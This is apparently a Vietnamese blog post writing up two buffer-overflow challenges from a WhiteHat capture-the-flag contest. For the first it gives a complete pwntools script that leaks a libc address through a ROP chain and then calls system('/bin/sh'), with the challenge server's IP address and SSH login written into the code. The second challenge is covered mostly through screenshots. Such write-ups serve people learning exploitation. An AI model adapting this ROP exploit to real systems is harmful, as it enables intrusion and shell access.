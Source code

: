 ```yaml
---
layout: post
title: [WhiteHat Challenge 01] Pwn
---
```




BTC cho 2 bài pwn khá dễ nên điểm cũng thấp :sosad:

### Pwn 001: 

![pwn001](http://i.imgur.com/r5x7w2Y.png)

Đây chỉ là bài bof cơ bản (như cái tên bài). 

Kiểm tra file  trước ...

![checkpwn1](http://i.imgur.com/Qmk7AGd.png)

Bật NX này nọ. Elf 64-bit nữa. 

Vào gdb debug. Tính toán khoảng cách để control eip với tính offset mấy cái hàm ...

Gồm 2 stage. Ban đầu leak địa chỉ printf để tính libc base, sau đó quay về main và đưa payload call system("/bin/sh") vào.

Code :

```python
from pwn import *

# find rop gadget
pop_rdi=0x0000000000400623

printf=0x0000000000400450
printf_got=0x0000000000601018
mainn=0x40057d

#compute offset (ssh)
off_printf=0x0000000000054340 
off_system=0x0000000000046590 
str_binsh=0x000000000017C8C3

def main(args):
	if len(args)<2:
		r=remote("127.0.0.1",9999)
	else:
		s=ssh(host="103.237.99.35",user="pwn001",password="Pwn001")
		r=s.process("./SimpleBoF")
	
	#leak libc

	pl="A"*40 

	pl+=p64(pop_rdi)
	pl+=p64(printf_got)
	pl+=p64(printf)

	pl+=p64(mainn) # return main after leak printf
	raw_input("?")
	r.sendline(pl)

	leak=r.recv(1024)

	print leak.encode('hex')

	libc_printf=u64(leak[len(leak)-8:len(leak)])
	libc_printf>>=16

	log.info("Leak printf: " + hex(libc_printf))

	libcbase=libc_printf-off_printf
	system=libcbase+off_system
	binsh=libcbase+str_binsh

	log.info("system: " + hex(system))
	log.info("binsh: " + hex(binsh))

	#exploit !
	pl="A"*40
	pl+=p64(pop_rdi)
	pl+=p64(binsh)
	pl+=p64(system)
	r.sendline(pl)

	r.interactive()

if __name__=="__main__":
	main(sys.argv)
	sys.exit(0)

```



![donepwn1](http://i.imgur.com/A6SidH2.png)



### Pwn002 

![pwn002](http://i.imgur.com/xQe7G11.png)

Cũng là bof mà ez hơn.

Kiểm tra file rồi quăng vào IDA. Để ctrinh strcpy argv của mình thì vào hàm check_argv.

![check_argv](http://i.imgur.com/Prq9xgx.png)

Nếu độ dài bằng 17 thì return 1 => cho phép copy. Và cũng vừa đủ để chạy hàm tiếp theo.

Ngoài ra ta còn thấy có sẵn hàm system. Xem thử thì thấy có func này ...

![stors](http://i.imgur.com/QMiF31k.png)

Rồi. pwn thôi.

![donepwn2](http://i.imgur.com/qjZWT4z.png)

